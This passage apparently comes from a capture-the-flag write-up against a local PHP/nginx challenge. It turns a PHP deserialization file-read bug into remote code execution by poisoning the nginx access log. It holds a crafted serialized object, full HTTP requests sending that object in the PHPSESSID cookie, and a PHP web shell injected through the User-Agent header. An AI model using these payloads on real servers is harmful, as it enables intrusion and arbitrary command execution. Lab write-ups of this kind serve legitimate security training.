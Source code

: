 > It worked!
{: .prompt-info }

Now lets escalate this file read vulnerability to a remote code execution by poisoning the `access.log` file. From the `docker` image and the `http` response we know that `nginx` is used. The `access.log` location should be under: `/var/log/nginx/access.log`.  
  
Crafted serialised object: `O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}`  
  
`base64` encoded serialised object: `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==`
```http
GET / HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 09:35:59 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 5687

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
...
```

> We are able to read the `access.log`
{: .prompt-info }

Lets poison the log with some simple `php` web shell.  
payload: `<?php system($_REQUEST['c']); ?>`
```http
GET / HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_REQUEST['c']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9
```